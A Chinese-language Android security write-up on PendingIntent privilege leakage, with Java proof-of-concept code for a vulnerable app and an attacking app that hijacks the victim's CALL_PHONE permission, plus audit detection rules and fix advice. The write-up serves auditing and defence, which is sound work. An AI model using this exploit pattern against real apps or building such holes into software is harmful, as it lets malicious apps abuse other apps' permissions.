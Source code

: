 ## 风险描述
简述：会造成权限泄露，恶意应用会拿到风险应用的全部权限，并根据具体的权限做出不同的权限利用动作。

## 攻击手法
### 预备
1. 两个应用，分别称为：Bug-APP、Attack-APP。
2. 应用运行系统：Android 4.0.1(14)——Android 4.4.4(20)。
3. 说明：我们直接使用Attack-App来处理Bug-app发送的数据,这不是正常的风险发生模型。正常的是：_Bug-APP_发送数据不小心 + Attack-app 认真的辨别而后接收到了Bug-App发送的数据 = 损失发生。
4. 第3点涉及到了我们的：风险防范手段 / 风险防范层面 / 风险防范角度。
### 编码
Bug-APP 核心代码:
1. AndroidManifest.xml
```xml
<uses-permission android:name="android.permission.CALL_PHONE" />
```
2. java代码
```java
@Override
public void onClick(View view) {
    Intent intent;
    PendingIntent pendingIntent;
    switch (view.getId()) {

        case R.id.btn_pi_1://发送之后Attack-APP不做处理直接启动
            intent = new Intent("action_2");
            pendingIntent = PendingIntent.getActivity(this, 1, new Intent(Intent.ACTION_CALL, Uri.parse("tel:10010")), 0);
            intent.putExtra("pendingIntent_extra", pendingIntent);
            startActivity(intent);
            break;
            
        case R.id.btn_pi_2://发送之后靶机，根据权限做出精心准备
            intent = new Intent("action_2");
            pendingIntent = PendingIntent.getActivity(this, 1, new Intent(), 0);
            intent.putExtra("pendingIntent_non", pendingIntent);
            startActivity(intent);
            break;
    }
}
```

Attack-APP 核心编码
1. AndroidManifest.xml文件中没有任何权限声明
2. Java代码
```java
@Override
public void onClick(View view) {
    Intent intent = getIntent();
    switch (view.getId()) {

        case R.id.btn_action_2://直接启用PendingIntent中的Intent
            PendingIntent pendingIntent = intent.getParcelableExtra("pendingIntent_extra");
            pendingIntent.send();
            break;

        case R.id.btn_action_2_cando://先把PendingIntent中的Intent做修改再启用该Intent
            try {
                PendingIntent pendingIntent = intent.getParcelableExtra("pendingIntent_non");
                pendingIntent.send(this, 0, new Intent(Intent.ACTION_CALL, Uri.parse("tel:10010")));
            } catch (PendingIntent.CanceledException e) {
                e.printStackTrace();
            }
            break;
    }
}
```

### 开始

说明两个click响应，根据putExtra中的key来区分Click
- __pendingIntent_extra__:
    - But-app通过本区域代码启动Attack-app。
    - Attack-app通过本区域代码验证了Bug-App的权限可以公国Attack-app来使用。(原理上还是But-app使用了自己的权限，但是效果上就是Attack-app代为使用了该权限。)
- __pendingIntent_non__:
    - But-app通过本区域代码启动Attack-app。
    - Attack-app通过本区域代码验证了Bug-app的权限可以被传递到Attack-app，并且Attack-app可以根据Bug-app的权限范围做任何操作。__提权__

## 査漏手法
1. 首先我们需要判定漏洞影响范围
    - 通过真机和模拟器的测试知道了该风险影响到的android系统为:` >= Android15`
2. 其次我们应该确认漏洞涉及的关键代码
    - 已经知道了 new Intent() 会造成风险。
    - 接下来确认限制是否在Intent.fillIn上。从而可以判断是否可以绕过,没有源码的联通逻辑这个校验很难啊。
    - 可以提供空Intent的生成为风险
3. 最后确定检查手段。
    - 这个检测有几个层面
        1. 创建的时候空Intent
        2. 是否把空Intent传送给三方应用。

关于下述方法https://developer.android.google.cn/reference/android/app/PendingIntent.html
1. PendingIntent.getActivities(Context context, int requestCode, Intent[] intents, int flags, Bundle options)
2. PendingIntent.getActivities(Context context, int requestCode, Intent[] intents, int flags) 
3. PendingIntent.getActivity(Context context, int requestCode, Intent intent, int flags) 
4. PendingIntent.getActivity(Context context, int requestCode, Intent intent, int flags, Bundle options) 
5. PendingIntent.getBroadcast(Context context, int requestCode, Intent intent, int flags) 
6. PendingIntent.getService(Context context, int requestCode, Intent intent, int flags) 

以上四个方法在调用的时候如果加入参数为 `new Intent()` 直接判定存在风险    

下文风险用代码说明了：
```java
//代码段 -0
Intent intent = new Intent();

//代码段-1
Intent intent = new Intent("action");
//代码段-2
Intent intent = new Intent();
intent.setAction("action");
//代码段-1 和 代码段-2 等价

//代码段 -3
Intent intent = new Intent("com.example.tom.drop", "com.example.tom.drop.ActivityAction_2_2");
//代码段 -4
Intent intent = new Intent();
ComponentName componentName = new ComponentName("com.example.tom.drop", "com.example.tom.drop.ActivityAction_2_2");
intent.setComponent(componentName);
//代码段 -5
Intent intent = new Intent();
intent.setClass(******************
//代码段-3-4-5 等价


//Intent中存在一些常量
public static final int FILL_IN_ACTION = 1<<0;      //0x1
public static final int FILL_IN_COMPONENT = 1<<3;   //0x8
```
Component的优先级高于Action

我们的检测方式：

- 查找PendingIntent.getXXX方法——如果没找到没有风险。
- 找到了。最终参数Intent的初始化过程。
- 如果使用了`代码段0`的初始化方式- __风险__
- 如果使用了`代码段12`的初始化方式，并且`getXXX`方法中的flag设置为`FILL_IN_ACTION`——__风险__
- _如果使用了`代码段345`的初始化方式，并且`getXXX`方法中flat设置为`FILL_IN_COMPONENT`——__风险___

这个风险的细节：风险真正的发生是开发者把这个PendingIntent按照我们认为风险的方式发送给三方应用风险才真正产生。
而我们没有审计开发者是否把风险移交给三方应用所以这个内容在真正审计的时候永远不会是高危漏洞，最多算是风险。



## 修复建议
1. PendingIntent中的Intent参数不要使用  `new Intent()`
2. 如果PendingIntent初始化时候的Intent参数设置了Action没有设置Component，PendingIntent初始化的flag不要使用FILL_IN_ACTION
3. 如果PendingIntent初始化时候的Intent参数设置了Component，PendingIntent初始化的flag不要使用FILL_IN_COMPONENT
4. __重要__ 如果上述不太确定最好不要把PendingIntent交给三方应用。


## 参考
1. http://wps2015.org/drops/drops/安卓Bug%2017356824%20BroadcastAnywhere漏洞分析.html
2. http://blog.csdn.net/wangbaochu/article/details/50599788
3. http://blog.csdn.net/zhaokaiqiang1992/article/details/19613149
4. http://www.cnblogs.com/vendanner/p/5114414.html